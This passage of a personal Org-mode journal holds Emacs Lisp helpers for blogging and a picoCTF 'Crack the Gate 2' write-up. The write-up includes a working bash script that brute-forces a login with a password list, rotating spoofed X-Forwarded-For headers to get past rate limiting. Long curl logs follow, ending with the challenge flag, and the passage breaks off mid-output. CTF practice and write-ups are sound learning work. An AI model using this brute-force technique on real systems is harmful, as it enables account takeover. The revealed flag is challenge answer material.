  "Face for `foo' in `<<foo>>'.")
#+end_src

**** Determine the keywords and their corresponding faces

~<​<font-lock stuff>> +≡​~

#+begin_src elisp :noweb-ref font-lock stuff :noweb no :noweb no
(defvar noweb-font-lock-keywords
  '(("\\(<<.*>>\\)" 1 'noweb-module-name-face t)
    ("~\\(<​<.*>>\\) \\+≡​~" 1 'noweb-module-name-face t))
  "Font-lock keywords for `noweb-mode' minor mode.")
#+end_src

~<​<Resolve faces when enabling/disabling the mode>> +≡​~

#+begin_src elisp :noweb-ref Resolve faces when enabling/disabling the mode :noweb no
(if noweb-mode
    (font-lock-add-keywords nil noweb-font-lock-keywords t)
  (font-lock-remove-keywords nil noweb-font-lock-keywords))
(font-lock-flush)
(font-lock-ensure)
#+end_src

*** *Load the tangled el.*  After tangling ~org~ files that generate a corresponding ~el~, it is sometimes useful to ~load~ that ~el~ file, applying all the goodness therein.  This function does just that.

~<​<functions>> +≡​~

#+begin_src elisp :noweb-ref functions :noweb no
(defun noweb-load-auto-tangled ()
  "Call function `load' on the file with same name but `.el' extension."
  (interactive)
  (let ((filename
         (file-name-sans-extension (buffer-file-name))))
    (load filename) nil t))
#+end_src

** Getting closer to the thing proper

Then at the end of the day I finally started working on a (nother) minor-mode, this time specifically to help me write the blog posts.

*** This is the CTF minor mode.  I'll be using it to make CTF writeups.
Besides editing facilities, it also does some /challenge-solving/ of its own.
For example, after downloading a file, it looks at its type (as informed by the command ~file~), and potentially runs more commands, appropriate for that type of file.

[[file:ctf-mode.el][ctf-mode.el]] ≡

#+begin_src emacs-lisp :tangle no :noweb no
<<Define the minor mode>>
(provide 'ctf-mode)
#+end_src
*** First, let's define it, add a nice lighter to it, and its own neat keymap.

~<<Define the minor mode>> +≡~

#+begin_src elisp :noweb-ref Define the minor mode :noweb no
(define-minor-mode ctf-mode
  "Minor mode for CTF writeups."
  :lighter " Ctf"
  :keymap (make-sparse-keymap)
  <<Minor mode definition>>
  )
#+end_src

*** *Description Function.*  CTF writeups are all about the challenge.  Let's create a function that helps us when creating that description.

#+begin_src elisp :noweb no
(define-skeleton blog-insert-description
  "Insert ctf description for the blog."
  nil
  "* Description"
  (nil \n \n (read-string "description: "))
  \n \n "Hints"
  ("hint: " '(org-return-and-maybe-indent) "- " str) | -7
  (nil \n \n \n "*Link:* [[" (read-string "link: ") "]]")
  '(delete-trailing-whitespace)
  '(save-buffer)
  '(git-commit-all "feat: add description"))
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-24_seinfeld.jpeg]]

* [2025-10-23 Thu]

** Blog got a new theme!

After more hours than I am comfortable to count, I could finally change the theme on the [[https://rafaelbeirigo.github.io/cybersec-dojo/][blog]].
I was trying really hard to make the obvious thing work: just changing the option.
As it turns out, it is not that simple: each theme may have its own quirks and idiosyncrasies.

But thankfuly, it wasn't that complicated, either.
The key factor was a change in mindset: instead of consuming tutorials blindly, take a step back, identify the fundamental entities involved, and how I could apply my knowledge to solve it; also, think outside the box: remove the restriction of having to make the official package work.

In the end, I could use official packages, and the latest releases, which is a relief (makes it easier to maintain, at least in theory, as obsolescence should be postponed, relatively to older packages).

** Worked on several macros to make blogging easier (and funnier!)

This one may look a bit *bold*, but it is used reasonably, I promise...

#+begin_src elisp :noweb no
(defun git-commit-all (message)
  "Stage and commit all changes in the repository."
  (interactive "Mmessage: ")
  (async-shell-command
   (let* ((script "~/ctf-writeups/chore/git/commit/commit.sh")
          (command (concat script " \"" message "\"")))
     (async-shell-command command))))
#+end_src

This one came first as courtesy of ChatGPT.
But, as it turned out, I not only had, but hopefully /could/ add some changes---and even improvements!---of my own.

When writing about challenges, there is a /lot/ of command references, and they all have to be formatted ~like this~.
To accomplish that, I must enclose the word between tildes, and this gets old /very/ fast!

The brilliant---and /elegant/---idea of ChatGPT was to create a /minor-mode/ in Emacs  for just that: automatically enclose a word in tildes when applicable.
The initial idea was to /tilde/ every word Emacs recognizes as a /command/.
I also told Emacs to tilde the words when they belonged to a special list: a list with filenames that are specific to the challenge at hand---they also must be enclosed in tildes.

This was fun, as I had the opportunity to work with file-local variables and learned a lot.

#+begin_src elisp :noweb no
(defun my-mark-command-in-tilde ()
  "Wrap shell commands in ~command~ when typed in Org, except inside src blocks.
Triggers on non-word characters like space, ., ,, etc."
  (when (and (eq major-mode 'org-mode)
             (not (org-in-src-block-p))
             (not (eq last-command-event ?~))  ;; avoid recursion
             (not (memq (char-syntax last-command-event) '(?w ?_)))) ;; not word/underscore
    (save-excursion
      ;; Go to the start of the word.
      (backward-word 1)
      ;; Deal with words with "extensions" (e.g., foo.bar).
      (while (or (looking-back "\\w" 1)
                 (looking-back "\\." 1))
        (backward-char))
      (let ((start (point)))
        (while (or (looking-at "\\w" 1)
                   (looking-at "\\." 1))
          (forward-char))
        (let* ((end (point))
               (word (buffer-substring-no-properties start end))
               (really-is-a-command
                ;; These commands could be just words; check with the user.
                (if (member word (list "find" "file"))
                    (yes-or-no-p "command?")
                  t)))
          (when
              (and
               (or (executable-find word)
                   ;; Assets are filenames, usually defined with `assets' as
                   ;; file-local variable.
                   (and (local-variable-p 'assets) (member word assets)))
               really-is-a-command
               (and (not (eq (char-before start) ?~))
                    (not (eq (char-after end) ?~))))
            ;; Replace word with ~word~
            (undo-boundary)
            (delete-region start end)
            (insert (format "~%s~" word))
            (undo-boundary)))))))

(define-minor-mode my-auto-mark-commands-mode
  "Minor mode to auto-wrap shell commands in tildes (~) in Org buffers."
  :lighter " ~Cmd~"
  (if my-auto-mark-commands-mode
      (add-hook 'post-self-insert-hook #'my-mark-command-in-tilde nil t)
    (remove-hook 'post-self-insert-hook #'my-mark-command-in-tilde t)))

(add-hook 'org-mode-hook #'my-auto-mark-commands-mode)
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-23_seinfeld.jpeg]]

* [2025-10-22 Wed]

** CTF blog

These past few days' work on CTFs motivated me to start a simple blog to document them.

Here is [[https://rafaelbeirigo.github.io/cybersec-dojo/binary-exploitation/2025/10/22/picoctf-picker-iv-writeup.html][my first blog post on Cybersecurity!]].

Next steps include changing the theme for a more /cyber/-oriented :)

*** Small adaptation to publishing function

I made a tiny adaptation to a function to make the publishing process esier---it asks for a directory if called in a specific manner.

#+begin_src elisp :noweb no
(defun my-org-jekyll-md-export-to-md (&optional arg async subtreep visible-only)
  "Export current buffer to a Markdown file adding some YAML front matter."
  (interactive "P")
  (let ((outfile (concat
                  (when arg (concat (read-directory-name "dir: ") "/"))
                  (org-jekyll-md-filename-date)
                  (org-export-output-file-name ".md" subtreep))))
    (org-export-to-file 'jekyll outfile async subtreep visible-only)))
#+end_src

*** Insert blog header info automatically

This little function may help a lot!

#+begin_src elisp :noweb no
(define-skeleton blog-header
  "Insert a header for blogging."
  nil
  "#+TITLE: " (read-string "title: ") \n
  "#+DATE: " (format-time-string "%Y-%m-%d %R" (org-read-date t t)) \n
  "#+JEKYLL_LAYOUT: post" \n
  "#+JEKYLL_CATEGORIES: " (read-string "categories: ") \n
  "#+JEKYLL_TAGS: " (read-string "tags: "))
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-22_seinfeld.jpeg]]

* [2025-10-21 Tue]

** Progress and tools

It seems I got to a point where I should automate some work---and do it fast---and go *slow* on some other work---and *reflect* about it.

Also, tired of the repetition.

Need to freshen up!

** Seinfeld Checkmark

[[file:images/2025-10-21_seinfeld.jpeg]]

* [2025-10-20 Mon]

** picoCTF

Today I finished the last Easy challenge they have.
It was 81 in total.
There are still two to solve, but they are under maintenance.

I also started the Medium level ones.
They are somehow clearer than the Easy ones (maybe because they go deep on a specific detail of a subject).

Here's the last one I solved:

*** Crack the Gate 2
**** Instructions and commentaries

We are given a link to a login page.

The instructions say:

- The login system has been upgraded with

- a basic rate-limiting mechanism that

  - locks out

  - repeated failed attempts

  - from the same source.

- We’ve received a tip that

  - the system might still trust

  - user-controlled headers.

- Your objective is to

  - bypass the rate-limiting restriction and

  - log in using the known email address: ctf-player@picoctf.org and

  - uncover the hidden secret.

We are also given the following Hints:

- What IP does the server think you’re coming from?
- Read more about [[https://www.typeerror.org/docs/http/headers/x-forwarded-for][X-forwarded-For]].
- You can rotate fake IPs to bypass rate limits.

**** Download assets
#+begin_src shell :noweb no
2>&1 wget https://challenge-files.picoctf.net/c_amiable_citadel/d168d254b68d30726076de06aab9b9b74c5470344ec974360f5a9045c6398b17/passwords.txt
#+end_src

#+RESULTS:
#+begin_example
--2025-10-20 18:25:19--  https://challenge-files.picoctf.net/c_amiable_citadel/d168d254b68d30726076de06aab9b9b74c5470344ec974360f5a9045c6398b17/passwords.txt
Resolving challenge-files.picoctf.net (challenge-files.picoctf.net)... 108.158.186.79, 108.158.186.39, 108.158.186.116, ...
Connecting to challenge-files.picoctf.net (challenge-files.picoctf.net)|108.158.186.79|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 179 [application/octet-stream]
Saving to: ‘passwords.txt’

     0K                                                       100%  418M=0s

2025-10-20 18:25:21 (418 MB/s) - ‘passwords.txt’ saved [179/179]

#+end_example

Asset ~passwords.txt~:

#+begin_example
tkY83OwR
vISQRFmM
471HtPne
s8nXfR6X
WoQEk5GL
eu8z9EFn
0SMi2c8U
WlHiKuw6
0iaXgUGR
shNKoNrW
KaqwDEUA
eSqOLef7
CueFICmh
MZZSJucZ
eZQR9yx7
sPEIun6X
p0fkX9cA
CY1sEmC6
M707m17w
8thnKYYn
#+end_example

**** Is it possible to circumvent rate-limiting by spoofing IP via POST header X-Forwarded-For? Yes

I tried to login via the web page once, and got the command below.
Running it again here, using cURL.

#+begin_src shell :noweb no
2>&1 curl -v 'http://amiable-citadel.picoctf.net:57381/login' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://amiable-citadel.picoctf.net:57381/' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://amiable-citadel.picoctf.net:57381' \
  -H 'Connection: keep-alive' \
  -H 'Priority: u=0' \
  --data-raw '{"email":"ctf-player@picoctf.org","password":"whatever"}'
#+end_src

#+RESULTS:
#+begin_example
Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57381...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57381 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57381
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 429 Too Many Requests
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 85
< ETag: W/"55-BeJP6dUudMpXjI0h8c0UICFySpk"
< Date: Mon, 20 Oct 2025 23:35:31 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [85 bytes data]
100   141  100    85  100    56    160    105 --:--:-- --:--:-- --:--:--   266
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false,"error":"Too many failed attempts. Please try again in 20 minutes."}
#+end_example

It applied the rate-limiting.

Now trying again, using the header ~X-Forwarded-For~ to spoof my IP.

#+begin_src shell :noweb no
2>&1 curl -v 'http://amiable-citadel.picoctf.net:57381/login' \
  -X POST \
  -H 'X-Forwarded-For: 1.2.3.4' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://amiable-citadel.picoctf.net:57381/' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://amiable-citadel.picoctf.net:57381' \
  -H 'Connection: keep-alive' \
  -H 'Priority: u=0' \
  --data-raw '{"email":"ctf-player@picoctf.org","password":"whatever"}'
#+end_src

#+RESULTS:
#+begin_example
Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57381...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57381 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57381
> X-Forwarded-For: 1.2.3.4
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:38:09 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     36    119 --:--:-- --:--:-- --:--:--   155100    73  100    17  100    56     36    119 --:--:-- --:--:-- --:--:--   155
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}
#+end_example

It did *not* apply the rate-limiting!

**** Brute-force attack login with provided list of passwords

[[file:login.sh][login.sh]] ≡

#+begin_src shell :noweb no
#!/bin/bash

# Part of the IP that will change for each request
I=1

cat passwords.txt | \
    while read PWD
    do
        # Get a new IP
        2>&1 curl -v 'http://amiable-citadel.picoctf.net:57780/login' \
             -X POST \
             -H 'X-Forwarded-For: 1.2.3.'$I \
             -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0' \
             -H 'Accept: */*' \
             -H 'Accept-Language: en-US,en;q=0.5' \
             -H 'Accept-Encoding: gzip, deflate' \
             -H 'Referer: http://amiable-citadel.picoctf.net:57381/' \
             -H 'Content-Type: application/json' \
             -H 'Origin: http://amiable-citadel.picoctf.net:57381' \
             -H 'Connection: keep-alive' \
             -H 'Priority: u=0' \
             --data-raw '{"email":"ctf-player@picoctf.org","password":"'$PWD'"}'

        # Change a part of the IP for the next request
        I=$(( $I + 1 ))
    done
#+end_src

#+RESULTS:
#+begin_example
Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.1
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:16 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     20     67 --:--:-- --:--:-- --:--:--    87
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.2
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:17 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     20     68 --:--:-- --:--:-- --:--:--    89
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.3
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:18 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     70 --:--:-- --:--:-- --:--:--    92100    73  100    17  100    56     21     70 --:--:-- --:--:-- --:--:--    92
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.4
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:19 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.5
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:20 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     20     68 --:--:-- --:--:-- --:--:--    89
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.6
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 132
< ETag: W/"84-GgUl5OLUlonh/YEAoxXrH+ecwrc"
< Date: Mon, 20 Oct 2025 23:52:20 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [132 bytes data]
100   188  100   132  100    56    159     67 --:--:-- --:--:-- --:--:--   226
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{xff_byp4ss_brut3_1cc3b76e}"}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.7
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:21 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     71 --:--:-- --:--:-- --:--:--    92
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.8
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:22 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.9
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:23 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.10
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:23 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.11
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
